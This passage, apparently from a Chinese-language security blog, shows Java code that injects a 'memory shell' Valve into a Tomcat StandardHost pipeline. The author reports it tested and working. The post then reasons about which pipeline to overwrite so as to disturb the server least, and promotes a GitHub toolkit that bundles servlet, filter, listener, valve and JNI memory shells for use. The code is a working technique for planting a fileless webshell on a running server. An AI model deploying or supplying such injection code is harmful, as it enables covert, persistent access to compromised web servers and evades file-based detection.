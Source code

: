 比如在StandardHost处插入Valve

```java
static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                StandardHost standardHost = (StandardHost) standardContext.getParent();
                Pipeline standardPipeline = standardHost.getPipeline();
                Valve[] valves = standardPipeline.getValves();
                boolean hasValveShell = false;
                Valve valveShell = new ValveMemShell2();
                for (Valve valve : valves) {
                    // 在这里对每个valve进行操作
                    if (valve.getClass().equals(valveShell.getClass())) {
                        hasValveShell = true;
                        break;
                    }
                }
                if (!hasValveShell) {
                    standardPipeline.addValve(valveShell);
                }
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
```

实测可用



OK，现在考你们一个问题，如果此处pipeline不是add添加，而是set修改，那么修改哪个地方的xxx.getPipeline会影响比较小？理论推导一下

>如果是set，我们依然可以选择修改以上四个getPipeline的任意一个，但是为了最小化影响Tomcat，理论上我们应该选择修改链上的最后一个，也就是StandardWrapper.getPipeline的结果。
>
>与此同时，修改了StandardContext Pipeline或者StandardWrapper Pipeline意味着该链之后的程序都无法正常执行，比如StandardWrapperValve里原本的Filter和servlet
>
>因为Listener在StandardHostValve触发的原因，修改以上两个Pipeline还无法影响到正常的Listener。但是如果修改StandardEngine、StandardHost则会把原本的Listener也给挤掉

答案是StandardContext 和 StandardWrapper ：)

至此，Tomcat下TemplatesImpl字节码所需的servlet 、Filter 、Listener、Valve 内存马，以及三个通用内存马，以及单回显JNIMemShell全部集成于My TomcatMemShell，欢迎使用

https://github.com/godownio/TomcatMemshell
